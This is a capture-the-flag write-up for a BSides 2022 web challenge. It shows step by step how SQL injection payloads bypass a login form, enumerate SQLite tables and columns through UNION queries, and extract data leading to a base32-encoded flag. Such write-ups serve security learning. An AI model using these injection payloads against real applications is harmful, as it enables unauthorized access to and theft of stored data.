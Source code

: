```yaml
---
title: bsides2022 – Hinokuni
tags: web sql injection
---
```


## Challenge

> TODO: finish Konohagakure's homepage

The link led to a website that showed a login form. Any username/password combination entered allowed a login, leading to a page with the following content and a link to log out:

```
Y0u g07 |7 <0ngr47$[]
```

## Solution

### Discovery

The password field allows SQL injection. So entering `' OR 1==1 --` would allow you to log in and show the following:

```
Y0u g07 |7 <0ngr47$
[{"id":1,"password":"teja"},
{"id":2,"password":"user1"},
{"id":3,"password":"user2"},
{"id":4,"password":"krishna"},
{"id":5,"password":"sai"}]
```

It seems like the empty square brackets in the original output was the output of a SQL query of the passwords database. (Also: Don't store passwords in plain text maybe? 🤷‍♂️)

Using `sqlmap`, I found out that this is a SQLite installation.

### Exploitation

Using a UNION, we can append any further SQL query with the same amount of rows on the database to the output, exfiltrating any data we want. To find out how many rows are actually queried (this doesn't have to be the same as the printed output), we can add a `,1` to `' OR 1==1 UNION SELECT 1,1,[…] --` and check whether or not we get an output (no output means an SQL error). We confirm that the original query has two parameters.

SQL databases generally have a table that stores all available tables in the database. By querying this table, we can see what data might be available. The query here is `' UNION SELECT  1, name FROM sqlite_schema --`. I am no longer bypassing the login to only get the new data. This returns:

```
Y0u g07 |7 <0ngr47$
[{"id":1,"password":"customers"},
{"id":1,"password":"data"},
{"id":1,"password":"media_types"},
{"id":1,"password":"sqlite_sequence"},
{"id":1,"password":"users"}]
```

The `id` is always `1` (as we queried `1` for the first row), while the `password` field actually contains the table names: `customers`, `data`, `media_types`, `sqlite_sequence`, `users`.

Next, I wanted to query `data`. To be able to do this, I first needed the column names. Fortunately, SQLite provides a macro that gets those for any table (other databases usually have a table for this). Query: `' UNION SELECT 1, name FROM pragma_table_info('data') --` Result:

```
Y0u g07 |7 <0ngr47$
[{"id":1,"password":"id"},
{"id":1,"password":"label"},
{"id":1,"password":"otp"}]
```

Again, the `password` field is the interesting one. So we got columns `id`, `label`, and `otp`. `id` seems the least interesting, so I queried `label` and `otp`: `' UNION SELECT label, otp FROM data --`. This returned a lot of data (~100000 rows), so here are the first few:

```
Y0u g07 |7 <0ngr47$
[{"id":"MZWGCZ33NAYGWYLHGNPWINDUORSWENDZGB6Q====","password":499497},
{"id":"SUCCESS","password":1},
{"id":"SUCCESS","password":2},
{"id":"SUCCESS","password":100010},
{"id":"SUCCESS","password":100032},
{"id":"SUCCESS","password":100037},
{"id":"SUCCESS","password":100082},
{"id":"SUCCESS","password":100098},
{"id":"SUCCESS","password":100114},
{"id":"SUCCESS","password":100136},
{"id":"SUCCESS","password":100141},
{"id":"SUCCESS","password":100142},
{"id":"SUCCESS","password":100156},
{"id":"SUCCESS","password":100163},
{"id":"SUCCESS","password":100170},
{"id":"SUCCESS","password":100184},
{"id":"SUCCESS","password":100188},
{"id":"SUCCESS","password":100194},
{"id":"SUCCESS","password":100202},
{"id":"SUCCESS","password":100219},
{"id":"SUCCESS","password":100223},
{"id":"SUCCESS","password":100239},
{"id":"SUCCESS","password":100245},
{"id":"SUCCESS","password":100250},
{"id":"SUCCESS","password":100257}]
```

The first `label` entry seemed interesting here (`MZWGCZ33NAYGWYLHGNPWINDUORSWENDZGB6Q====`). It seems to be some sort of encoding. The `====` might indicate `base64`, but it has too many `=`s and only upper case letters, so I tried `base32`, and got:

```
flag{h0kag3_d4tteb4y0}
```

